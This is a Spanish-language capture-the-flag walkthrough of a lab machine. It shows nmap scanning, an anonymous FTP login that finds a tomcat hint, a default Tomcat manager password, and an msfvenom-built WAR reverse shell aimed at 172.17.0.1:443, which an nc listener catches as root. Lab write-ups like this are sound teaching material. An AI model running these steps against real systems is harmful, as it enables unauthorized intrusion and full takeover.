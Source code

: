 # -Pn

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
```

Como tenemos abierto los puertos 21 y 8080, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21,8080 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p21,8080`: Escaneo de los puertos 21 (FTP) y 8080 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```bash
PORT   STATE  SERVICE REASON         VERSION
21/tcp open   ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp closed http    reset ttl 64
```
Vemos que tenemos el usuario Anonymous en el ftp abierto, así que vamos a conectarnos.
```bash
ftp 172.17.0.2
```
```
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:tbrux): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15473|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
```
Encontrammos un archivo **tomcat.txt**, lo descargamos a nuestra máquina y revisamos que información contiene.
```bash
get tomcat.txt
```
```
tp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||38522|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |***********************************************************************************************************************************************************************************************|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (227.25 KiB/s)
ftp> exit
221 Goodbye.
❯ cat tomcat.txt
Hello tomcat, can you configure the tomcat server? I lost the password...
```
Es un mensaje al usuario **tomcat** así que ya solo faltaría encontrar el password. Vamos a ver el puerto 8080 que tenemos.

## Explotación.
Pinchamos en el botón **Manager APP**. Probamos una de las contraseñas quet tiene tomcat por defecto para el usuario **tomcat** y estamos dentro del panel.
```
tomcat:s3cr3t
```
En la página vemos la opciones y vamos hasta **WAR file to deploy** y desde ahí podemos subir un archivo malicioso con una reverse shell creada con msfvenom.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
```
Una vez creado, nos aparece un listado de archivos y rutas. Nos ponemos en escucha por el puerto 443.
```bash
nc -lvnp 443
```
Hacemos click en el archivo **revshell** que hemos subido y establecemos una reverse shell con la máquina victima con privilegios de root.
```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59678
whoami
root
```
